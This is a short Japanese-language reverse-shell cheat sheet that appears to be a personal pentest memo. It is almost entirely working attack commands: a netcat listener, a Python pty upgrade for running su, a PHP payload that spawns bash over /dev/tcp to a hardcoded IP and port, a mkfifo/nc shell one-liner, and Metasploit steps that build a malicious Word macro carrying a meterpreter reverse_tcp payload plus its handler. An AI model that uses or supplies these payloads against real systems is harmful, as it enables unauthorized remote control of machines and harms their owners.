 # リバースシェル

## メモ

### listen

```shell
nc -lvp <port>
```

### リバースシェルで su を実行できるようにする魔法

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
su - <user>
```

## 言語別

### PHP

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.11.9/1234 0>&1'") ?>
```

### shell
```shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f
```

### Office マクロ
```shell
msf6> set payload windows/meterpreter/reverse_tcp
msf6> use exploit/multi/fileformat/office_word_macro
set LHOST <ip>
set LPORT <port>
exploit
ls .msf4/local/msf.docm 
```

listen

```shell
msf6 > use multi/handler
set LHOST <ip>
set LPORT <port>
exploit
```
